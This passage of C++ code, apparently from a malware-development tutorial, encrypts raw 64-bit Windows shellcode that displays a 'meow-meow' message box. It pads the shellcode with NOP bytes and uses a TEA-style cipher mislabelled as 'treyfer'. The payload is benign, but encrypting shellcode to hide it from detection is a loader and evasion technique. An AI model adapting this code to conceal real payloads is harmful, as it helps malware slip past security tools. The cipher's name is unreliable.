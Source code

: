 ```cpp
    v0 += ((v1 << SHIFT) ^ (v1 >> (32 - SHIFT))) + v1 + sum + ((unsigned int *)key)[sum & 3];
    sum += delta;
    v1 += ((v0 << SHIFT) ^ (v0 >> (32 - SHIFT))) + v0 + sum + ((unsigned int *)key)[(sum >> 11) & 3];
  }

  *(unsigned int *)data = v0;
  *(unsigned int *)(data + 4) = v1;
}

// treyfer decryption function
void treyfer_decrypt(unsigned char *data, unsigned char *key) {
  unsigned int v0 = *(unsigned int *)data;
  unsigned int v1 = *(unsigned int *)(data + 4);
  unsigned int sum = 0x9e3779b9 * ROUNDS;
  unsigned int delta = 0x9e3779b9;
  
  for (int i = 0; i < ROUNDS; i++) {
    v1 -= ((v0 << SHIFT) ^ (v0 >> (32 - SHIFT))) + v0 + sum + ((unsigned int *)key)[(sum >> 11) & 3];
    sum -= delta;
    v0 -= ((v1 << SHIFT) ^ (v1 >> (32 - SHIFT))) + v1 + sum + ((unsigned int *)key)[sum & 3];
  }

  *(unsigned int *)data = v0;
  *(unsigned int *)(data + 4) = v1;
}

int main() {
  unsigned char key[] = "\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77\x6d\x65\x6f\x77";
  unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int len = sizeof(my_payload);
  int pad_len = (len + 8 - (len % 8)) & 0xFFF8;

  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len); // pad the shellcode with 0x90
  memcpy(padded, my_payload, len); // copy the shellcode to the padded buffer

```